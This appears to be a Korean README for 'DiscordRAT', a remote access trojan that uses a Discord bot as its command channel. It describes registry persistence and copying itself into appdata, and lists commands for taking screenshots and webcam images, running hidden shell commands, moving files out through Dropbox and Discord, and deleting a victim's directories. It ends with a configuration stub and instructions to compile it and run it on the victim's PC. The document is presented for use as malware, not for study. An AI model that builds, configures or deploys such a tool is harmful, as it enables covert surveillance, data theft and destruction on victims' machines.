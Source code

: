 ![venom](https://capsule-render.vercel.app/api?type=venom&height=200&text=DiscordRAT&fontSize=70&color=0:8871e5,100:b678c4&stroke=b678c4)

Discord.NET 을 이용한 reverse shell
## How It Works
프로그램을 실행할시 [init](https://github.com/root1234567891234/Discrod_Rat/blob/master/AntiMalware/class/init.cs) 실행(레지스트리 등록 appdata에 악성코드 복사본 등록(injection))
이미 악성코드가 실행중이면 중단하고 아니라면 봇 작동 후
명령어가 들어올시 [Command.command()](https://github.com/root1234567891234/Discrod_Rat/blob/master/AntiMalware/class/search.cs) 실행

public 명령어입니다.
```
all                                           모든 피해자 목록 조회
all_screenshot                                모든 피해자 화면 가져오기
all_camshot                                   모든 피해자 캠 가져오기
all_shell                                     모든 피해자에게 shell 명령어 실행
```
private 명령어입니다.
```
(피해자의 아이피) kill                          Discrod_RAT을 종료시킴
(피해자의 아이피) delet                         모든 Discrod_RAT을 삭제
(피해자의 아이피) screenshot                    피해자의 화면을 가져옵니다.
(피해자의 아이피) camshot                       피해자의 캠을 가져옵니다.
(피해자의 아이피) open (파일경로)                피해자 컴퓨터 내부에있는 특정 파일을 엽니다. (shellexecute 사용)
(피해자의 아이피) messagebox (띄울 메시지)       피해자 컴퓨터에 메시지 박스를 띄웁니다.
(피해자의 아이피) messagebox_que (띄울 메시지)   피해자 컴퓨터에 메시지 박스를 띄웁니다.(Question 사용)
(피해자의 아이피) messagebox_error (띄울 메시지) 피해자 컴퓨터에 메시지 박스를 띄웁니다.(Error 사용)
(피해자의 아이피) dropbox_download (파일경로)    dropbox api를 사용해 피해자 컴퓨터의 내부파일을 가져옵니다.(무료버전 사용시 최대 2GB크기 까지 가능)
(피해자의 아이피) dropbox_upload (파일경로)      dropbox api를 사용해 피해자 컴퓨터에 파일을 업로드 시킵니다.(무료버전 사용시 최대 2GB크기 까지 가능)
(피해자의 아이피) deletdir (폴더경로)            디렉토리를 삭제합니다. (하위목록까지 전부삭제)
(피해자의 아이피) deletfile (파일경로)           파일을 삭제합니다.
(피해자의 아이피) dir (폴더경로)                 디렉토리 내부의 파일목록을 조회합니다. cmd의 dir과 똑같음
(피해자의 아이피) shell (실행할 명령어)           피해자 컴퓨터에서 shell을 사용(콘솔창은 안뜸)
(피해자의 아이피) downloadfile (파일경로)        discord attachments를 사용해서 파일 다운로드(최대 25MB까지 다운가능 니트로 사용시 더 큰파일도 가능)
(피해자의 아이피) uploadfile (파일경로)          discord attachments를 사용해서 피해컴퓨터에 특정 파일 다운(최대 25MB까지 다운가능 니트로 사용시 더 큰파일도 가능)
```
## Usage
[필수값](https://github.com/root1234567891234/Discrod_Rat/blob/master/AntiMalware/class/value.cs)을 수정해 봇,후크와 연동한후 컴파일 그리고 피해자PC에서 실행시키세요
```C# 8
private static GET GET = new GET();
// 본 프로그램의 이름
public string filename = "";
// 실제 게임의 위치
public string path = "";
// 프로그램 버전
public string version = " | 2.23v";
// 디스코드 봇 토큰
public string bot_token = "";
// 웹훅링크
public string EndPoint =
@"";
// ip
public string ip = GET.ip();
// 드랍박스 연결
public DropboxClient dropbox_ = new DropboxClient(
                                      oauth2RefreshToken: "",
                                      appKey: "",
                                      appSecret: "");
// 웹에 post를 보내기위한 HttpClient선언
public HttpClient client_ = new HttpClient();
```
